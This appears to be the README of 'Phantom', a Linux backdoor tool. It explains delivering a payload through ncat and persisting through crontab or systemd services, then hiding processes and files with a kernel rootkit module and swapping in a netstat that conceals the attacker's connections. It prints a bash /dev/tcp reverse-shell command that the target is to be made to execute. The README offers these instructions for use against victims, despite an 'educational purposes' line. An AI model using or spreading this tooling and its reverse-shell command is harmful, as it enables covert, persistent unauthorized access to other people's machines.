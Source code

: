 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It only works on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init  [ip=][port1=][port2=]
```
* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload (e.g. port2=9999)

You have to somehow make the target execute this code, so that he connects to the 1st-port:  
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'  
ip and 1st-port are the ones specified above.

## Files

* phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to the port2.
* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
  creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
  and the systemd services themselves. It is also persistent through reboots because the second systemd service
  (the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and port2.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
